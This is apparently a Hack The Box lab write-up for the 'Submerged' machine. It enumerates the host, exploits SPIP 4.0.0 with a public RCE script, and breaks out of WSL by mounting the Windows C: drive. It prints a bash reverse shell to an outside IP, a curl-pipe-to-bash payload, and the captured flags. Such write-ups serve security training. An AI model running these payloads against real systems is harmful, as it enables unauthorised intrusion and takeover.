

    	<font size="10">Submerged</font>

​		27<sup>th</sup> April 2024 / Document No D24.XXX.XXX

​		Prepared By: TheCyberGeek

​		Machine Creator(s): TheCyberGeek

​		Difficulty: <font color="Green">Very Easy</font>

​        Classification: Official

​        

# Enumeration

## Nmap

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.231.33 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.231.33
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-27 18:37 BST
Nmap scan report for submerged.htb (10.129.231.33)
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Submerged Blog
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.39 seconds
```

We see that only port 80 is open using `Nginx` to host a blogging website. We visit the website and are redirected to `http://submerged.htb`. So we add the record to our `/etc/hosts` file.

```bash
echo "10.129.231.33 submerged.htb" | sudo tee -a /etc/hosts
```

Upon visiting the site we are introduced to a personal blog about the apocalypse which includes survival posts and other apocalyptic posts. 



There is a particular post called `The Relocation: Out With The Old and In With The New` which describes after the nuclear devastation that they refactored their website to adapt with the changes, and provide a link to the retired website.


Clicking the link takes us to `spip.submerged.htb`, which we do not have an entry for in our host file so we add the new virtual host name in. Upon navigating to the site, we see a blank site where the creator has removed all the posts and data from prior to the nuclear devastation. We enumerate the `SPIP` version by sending a basic verbose GET request to the site.

```bash
curl -v http://spip.submerged.htb
*   Trying 10.129.231.33:80...
* Connected to spip.submerged.htb (10.129.231.33) port 80
> GET / HTTP/1.1
> Host: spip.submerged.htb
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sat, 27 Apr 2024 17:54:10 GMT
< Content-Type: text/html; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Vary: Cookie, Accept-Encoding
< Composed-By: SPIP 4.0.0 @ www.spip.net + http://spip.submerged.htb/local/config.txt
< X-Spip-Cache: 86400
< Last-Modified: Sat, 27 Apr 2024 17:54:10 GMT
```

We see the site is using `SPIP 4.0.0`. Searching on Google for `SPIP 4.0.0 exploit` the first results returns [this](https://www.exploit-db.com/exploits/51536) link from `Exploit-DB`. Reading the summary of the exploit shows that the exploit was tested against `SPIP 4.0.0`. We downlaod the code locally and attempt to exploit the target. First we start a Python3 web server.

```bash
sudo python3 -m http.server 80
```

Then we attemtp to make a curl request to ourselves to verify we have remote code execution against the target.

```bash
python3 exploit.py -u http://spip.submerged.htb -c 'curl http://10.10.14.48/testing'
```

Checking our Python3 web server we see that we got a hit.

```bash
python3 -m http.server 80    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.231.33 - - [27/Apr/2024 19:01:12] code 404, message File not found
10.129.231.33 - - [27/Apr/2024 19:01:12] "GET /testing HTTP/1.1" 404 -
```

We create a bash file with a reverse shell and adjust our payload.

```bash
echo -ne '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.48/4444 0>&1' > bash.sh
```

We start a `Netcat` listener to catch the reverse shell.

```bash
nc -lvvp 4444
```

We adjust our command to grab the payload and trigger it at the same time.

```bash
python3 exploit.py -u http://spip.submerged.htb -c 'curl http://10.10.14.48/bash.sh|bash'
```

Checking our shell we have successfully gained a shell on the target and can read the user flag.

```bash
nc -lvvp 4444                            
Listening on 0.0.0.0 4444
Connection received on submerged.htb 49685
bash: cannot set terminal process group (83): Invalid argument
bash: no job control in this shell
matthew@WIN-1EGDT8E0CN3:/var/www/spip$
```

From here we can read the user flag.

```bash
matthew@WIN-1EGDT8E0CN3:/var/www/spip$ cat ~/user.txt
HTB{SpIP_Abu53_4_RC3}
```

## Privilege Escalation

At this stage we upgrade our shell and check the sudo permissions.

```bash
matthew@WIN-1EGDT8E0CN3:/var/www/spip$ script /dev/null -c bash
Script started, file is /dev/null
matthew@WIN-1EGDT8E0CN3:/var/www/spip$ sudo -l
Matching Defaults entries for matthew on WIN-1EGDT8E0CN3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User matthew may run the following commands on WIN-1EGDT8E0CN3:
    (ALL : ALL) NOPASSWD: ALL
matthew@WIN-1EGDT8E0CN3:/var/www/spip$ 
```

We become root by executing `sudo bash`. Enumerating the system shows that there isn't anything else available, but we are using WSL to be in a Ubuntu subsystem. A known issue with subsystems is that we can mount the `C:\` drive to the subsystem and access the host's files. We check to see if the `C:\` drive is already mounted.

```bash
root@WIN-1EGDT8E0CN3:~# ls -la /mnt
total 0
drwxr-xr-x 1 root root 512 Apr 10 11:04 .
drwxr-xr-x 1 root root 512 Apr 10 11:04 ..
drwxrwxrwx 1 root root 512 Apr 10 11:04 c
root@WIN-1EGDT8E0CN3:~# ls -la /mnt/c
total 0
drwxrwxrwx 1 root root 512 Apr 10 11:04 .
drwxr-xr-x 1 root root 512 Apr 10 11:04 ..
root@WIN-1EGDT8E0CN3:~#
```

Searching in Google for `mount c in WSL` shows [this](https://superuser.com/questions/1107618/where-is-the-c-drive-in-the-wsl) link, and in one of the comments it shows us how to mount the host drives into WSL.

```bash
sudo mount -t drvfs C: /mnt/c 
```

Attempting to perform this on the target successfully mounts the host filesystem.

```bash
root@WIN-1EGDT8E0CN3:~# sudo mount -t drvfs C: /mnt/c 
root@WIN-1EGDT8E0CN3:~# ls -la /mnt/c
ls: cannot read symbolic link '/mnt/c/Documents and Settings': Permission denied
ls: cannot access '/mnt/c/pagefile.sys': Permission denied
ls: '/mnt/c/System Volume Information': Permission denied
total 0
drwxrwxrwx 1 root root 512 Apr 26 16:38  .
drwxr-xr-x 1 root root 512 Apr 10 11:04  ..
drwxrwxrwx 1 root root 512 Apr 26 16:40  Config.Msi
lrwxrwxrwx 1 root root  12 Apr 29  2020 'Documents and Settings'
drwxrwxrwx 1 root root 512 Oct 10  2020  PerfLogs
drwxrwxrwx 1 root root 512 Apr 26 16:38 'Program Files'
drwxrwxrwx 1 root root 512 Sep 15  2018 'Program Files (x86)'
drwxrwxrwx 1 root root 512 Apr 29  2020  ProgramData
drwxrwxrwx 1 root root 512 Apr 29  2020  Recovery
d--x--x--x 1 root root 512 Apr 29  2020 'System Volume Information'
drwxrwxrwx 1 root root 512 Apr 29  2020  Users
drwxrwxrwx 1 root root 512 Apr 10 11:02  WSL
drwxrwxrwx 1 root root 512 Apr 26 16:39  Windows
-????????? ? ?    ?      ?            ?  pagefile.sys
root@WIN-1EGDT8E0CN3:~# 
```

We have full access to the host.

```bash
root@WIN-1EGDT8E0CN3:~# cd /mnt/c/users/administrator/desktop   
root@WIN-1EGDT8E0CN3:/mnt/c/users/administrator/desktop# ls -la
ls -la
total 0
drwxrwxrwx 1 root root 512 Nov 29  2022 .
drwxrwxrwx 1 root root 512 Apr 10 11:55 ..
-rwxrwxrwx 1 root root 282 Nov 29  2022 desktop.ini
-rwxrwxrwx 1 root root  25 Apr 27 11:38 root.txt
root@WIN-1EGDT8E0CN3:/mnt/c/users/administrator/desktop# cat root.txt
HTB{Pwn1ng_WsL_4_7h3_W1n}
```


